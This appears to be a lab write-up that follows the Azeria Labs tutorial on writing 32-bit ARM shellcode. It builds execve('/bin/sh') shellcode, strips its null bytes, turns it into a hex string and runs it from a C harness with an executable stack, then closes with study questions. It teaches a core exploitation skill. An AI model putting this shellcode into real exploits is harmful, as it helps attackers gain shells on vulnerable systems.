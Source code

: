 # Azeria Labs: Introduction To Writing ARM Shellcode

This is based on: https://azeria-labs.com/writing-arm-shellcode/.
This is the 32 bit Version.

Working directory is:
```
~/challenges/challenge41
```

## Understanding System Functions

We can check the source code of `write()`:

```
(gdb) disas write
Dump of assembler code for function write:
   0xf7763f80 <+0>:     ldr.w   r12, [pc, #74]  ; 0xf7763fce
   0xf7763f84 <+4>:     add     r12, pc
   0xf7763f86 <+6>:     ldr.w   r12, [r12]
   0xf7763f8a <+10>:    teq     r12, #0
   0xf7763f8e <+14>:    push    {r7}
   0xf7763f90 <+16>:    bne.n   0xf7763fa4 <write+36>
   0xf7763f92 <+18>:    movs    r7, #4
   0xf7763f94 <+20>:    svc     0
   0xf7763f96 <+22>:    pop     {r7}
   0xf7763f98 <+24>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763f9c <+28>:    it      cc
   0xf7763f9e <+30>:    bxcc    lr
   0xf7763fa0 <+32>:    b.w     0xf76f2990 <__syscall_error>
   0xf7763fa4 <+36>:    push    {r0, r1, r2, r3, lr}
   0xf7763fa6 <+38>:    bl      0xf7777a88 <__libc_enable_asynccancel>
   0xf7763faa <+42>:    mov     r12, r0
   0xf7763fac <+44>:    pop     {r0, r1, r2, r3}
   0xf7763fae <+46>:    movs    r7, #4
   0xf7763fb0 <+48>:    svc     0
   0xf7763fb2 <+50>:    mov     r7, r0
   0xf7763fb4 <+52>:    mov     r0, r12
   0xf7763fb6 <+54>:    bl      0xf7777b10 <__libc_disable_asynccancel>
   0xf7763fba <+58>:    mov     r0, r7
   0xf7763fbc <+60>:    ldr.w   lr, [sp], #4
   0xf7763fc0 <+64>:    pop     {r7}
   0xf7763fc2 <+66>:    cmn.w   r0, #4096       ; 0x1000
   0xf7763fc6 <+70>:    it      cc
   0xf7763fc8 <+72>:    bxcc    lr
   0xf7763fca <+74>:    b.w     0xf76f2990 <__syscall_error>
```

And to re-write it in our own shellcode:
```
root@hlUbuntu32:~/challenges/challenge41# cat write.s
.data
string: .asciz "Azeria Labs\n"  @ .asciz adds a null-byte to the end of the string
after_string:
.set size_of_string, after_string - string

.text
.global _start

_start:
   mov r0, #1               @ STDOUT
   ldr r1, addr_of_string   @ memory address of string
   mov r2, #size_of_string  @ size of string
   mov r7, #4               @ write syscall
   swi #0                   @ invoke syscall

_exit:
   mov r7, #1               @ exit syscall
   swi 0                    @ invoke syscall

addr_of_string: .word string
```

Lets execute it:
```
root@hlUbuntu32:~/challenges/challenge41# ./write
Azeria Labs
```

## Syscall Number and Parameters

Execve Shellcode Source `execve1.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
first example containing null-bytes */

.section .text
.global _start

_start:
        add r0, pc, #12
        mov r1, #0
        mov r2, #0
        mov r7, #11
        svc #0

.ascii "/bin/sh\0"
```

Lets execute it:

```
root@hlUbuntu32:~/challenges/challenge41# ./execve1
#
```

## De-Nullify Shellcode

Execve Shellcode without NULL's in code Source `execve2.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/),
second example containing one null-byte */

.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        mov r7, #11
        svc #1
        mov r5, r5

.ascii "/bin/sh\0"
```

Test it:
```
root@hlUbuntu32:~/challenges/challenge41# ./execve2
#
```

Execve without NULL in string source `execve3.s`:
```
/* execve() assembly code from the tutorial 'Writing ARM Shellcode' (https://azeria-labs.com/writing-arm-shellcode/), thrid example without null-bytes */
.section .text
.global _start

_start:
        .code 32
        add r3, pc, #1
        bx  r3

        .code 16
        add r0, pc, #8
        eor r1, r1, r1
        eor r2, r2, r2
        strb r2, [r0, #7]
        mov r7, #11
        svc #1

.ascii "/bin/shx"
```

Note: If you execute this, you'll receive a segmentation fault at the
`strb` instruction. Do you know the reason?


## Transform Shellcode into Hex string

Copy the content of the program into a separate file:
```
$ objcopy -O binary execve3 execve3.bin
```

And use the python script to convert it:
```
$ ./toshellcode.py execve3.bin
```

You can try it in the following program:
```
#include <stdio.h>
#include <string.h>

// Len: 28
char *shellcode = "\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x02\xa0\x49\x40\x52\x40\xc2\x71\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68\x78";

int main(void) {
        char s[32];
        memcpy(s, shellcode, 28);

        ( *( void(*)() ) s)();
}
```

Note that we have to copy the shellcode into a stack variable.
We also have to compile it with executable stack enabled.


# Questions

## Questions
* Why does `execve3` not execute?
* Why do we have to copy the shellcode to the stack in `execve3.s`?
* Why do we enable executable stack on `execve3.s` ?

## Answers
All three questions have the same answer. The shellcode is modifying part of
itself (the string), so it has to be writeable. But it will also be executed, so
we have to enable executable stack.
